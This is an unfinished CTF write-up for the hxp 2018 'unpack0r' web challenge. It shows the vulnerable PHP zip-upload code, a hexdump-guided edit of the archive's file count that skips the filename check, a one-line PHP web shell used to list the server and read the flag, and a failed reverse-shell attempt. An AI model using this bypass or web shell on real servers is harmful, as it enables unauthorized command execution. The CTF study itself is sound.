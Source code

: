 ```yaml
---
layout: post
title: unpack0r, h4x0rpsch0rr
category: hxp-2018
---
```

# Description
I could only play hxpCTF during my downtime at Hushcon, but found the challenges extremely engaging and enjoyable. I've split my posts into the crypto challenges and the web challenges. This post is about the web.

NOTE: This is still being written up, sorry for the delay!

# unpack0r
>unpackbar  
>Connection: http://195.201.136.29:8087/

Upon visiting the page, we're presented with what's presumed to be the page source.

```php
<?php
if (isset($_FILES['zip']) && $_FILES['zip']['size'] < 10*1024 ){
    $d = 'files/' . bin2hex(random_bytes(32));
    mkdir($d) || die('mkdir');
    chdir($d) || die('chdir');

    $zip = new ZipArchive();
    if ($zip->open($_FILES['zip']['tmp_name']) === TRUE) {
        for ($i = 0; $i < $zip->numFiles; $i++) {
            if(preg_match('/^[a-z]+$/', $zip->getNameIndex($i)) !== 1){
                die(':/ security');
            }
        }

        exec('unzip ' . escapeshellarg($_FILES['zip']['tmp_name']));
        echo $d;
    }
}
else {
    highlight_file(__FILE__);
}
```

From the source code, we see that the page supports zip file uploads. I wonder what that looks like - let's test the upload functionality with an empty zip.

```bash
echo 'test' > ota

zip test.zip ota
    adding: ota (stored 0%)

curl http://195.201.136.29:8087 -F zip=@test.zip
    files/70c4ec668530f636ec753edbc69f3013a64caba935ebbcf496c2d84d3fb47761

curl http://195.201.136.29:8087/files/70c4ec668530f636ec753edbc69f3013a64caba935ebbcf496c2d84d3fb47761/ota
    test
```

Incredible! So the contents of the zip file are uploaded to the server and displayed back to us. The attack vector is clear, we need to display either a php pass-through page for bash or a php reverse shell. We'll try both methods below.

From the source, if we are to upload a `.php` file, we must bypass the regex validation. The code performs a regex match for each file in the zip, where it gets the number of files from `$zip->numFiles`. What if we controlled that number? Let's take a hexdump of the following two zips and see if we can notice where this data is stored.

```bash
cp ota ota2

zip test1.zip ota
    adding: ota (stored 0%)

zip test2.zip ota ota2
    adding: ota (stored 0%)

```

```bash
xxd test1.zip
    50 4B 03 04 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9 3B 05
    00 00 00 05 00 00 00 03 00 1C 00 6F 74 61 55 54 09 00 03
    68 7C 20 5C 6A 7C 20 5C 75 78 0B 00 01 04 F5 01 00 00 04
    14 00 00 00 74 65 73 74 0A 50 4B 01 02 1E 03 0A 00 00 00
    00 00 7A B3 97 4D C6 35 B9 3B 05 00 00 00 05 00 00 00 03
    00 18 00 00 00 00 00 01 00 00 00 A4 81 00 00 00 00 6F 74
    61 55 54 05 00 03 68 7C 20 5C 75 78 0B 00 01 04 F5 01 00
    00 04 14 00 00 00 50 4B 05 06 00 00 00 00 01 00 01 00 49
    00 00 00 42 00 00 00 00 00                 ^     ^
                                               |     |
```

```bash
xxd test2.zip
    50 4B 03 04 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9 3B 05
    00 00 00 05 00 00 00 03 00 1C 00 6F 74 61 55 54 09 00 03
    68 7C 20 5C 6E 7C 20 5C 75 78 0B 00 01 04 F5 01 00 00 04
    14 00 00 00 74 65 73 74 0A 50 4B 03 04 0A 00 00 00 00 00
    7B B3 97 4D C6 35 B9 3B 05 00 00 00 05 00 00 00 04 00 1C
    00 6F 74 61 32 55 54 09 00 03 6A 7C 20 5C 6B 7C 20 5C 75
    78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 74 65 73 74 0A
    50 4B 01 02 1E 03 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9
    3B 05 00 00 00 05 00 00 00 03 00 18 00 00 00 00 00 01 00
    00 00 A4 81 00 00 00 00 6F 74 61 55 54 05 00 03 68 7C 20
    5C 75 78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 50 4B 01
    02 1E 03 0A 00 00 00 00 00 7B B3 97 4D C6 35 B9 3B 05 00
    00 00 05 00 00 00 04 00 18 00 00 00 00 00 01 00 00 00 A4
    81 42 00 00 00 6F 74 61 32 55 54 05 00 03 6A 7C 20 5C 75
    78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 50 4B 05 06 00
    00 00 00 02 00 02 00 93 00 00 00 85 00 00 00 00 00
              ^     ^
              |     |
```

Right at the end we notice that two values seem unique to each zip; this value represents the number of files in the archive. So if trick the upload code to think that there's only one file, it won't perform a regex check against out php code! Let's give it a shot.

```bash
echo "<?php if(_GET['chai']){ system(_GET['chai']); } ?>" > sh.php

zip ota.zip ota sh.php
    adding: ota (stored 0%)
    adding: sh.php (deflated 22%)

curl http://195.201.136.29:8087 -F zip=@ota.zip
    files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c?chai=ls
    ota
    sh.php
```

Perfect! Now we can go get the flag.

```bash
curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/ota.php\?chai\=ls+/
    bin
    boot
    dev
    etc
    flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/bbb.php\?chai\=cat+/flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    <?php
    'hxp{please_ask_gynvael_for_more_details_on_zips_:>}';
```

Note: We tried a reverse PHP shell (specifically [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)) and it seems the application won't allow reverse connections (as expexted). See output below.
```bash
curl http://195.201.136.29:8087/files/3075a1f1910f2c423d852b164f57856f37b1bdc3fb5834b7ad0a9614c1495d23/rsh.php\
    WARNING: Failed to daemonise.  This is quite common and not fatal.
    Connection refused (111)
```

# h4x0rpsch0rr
>Finally a use case for those internet tingies!
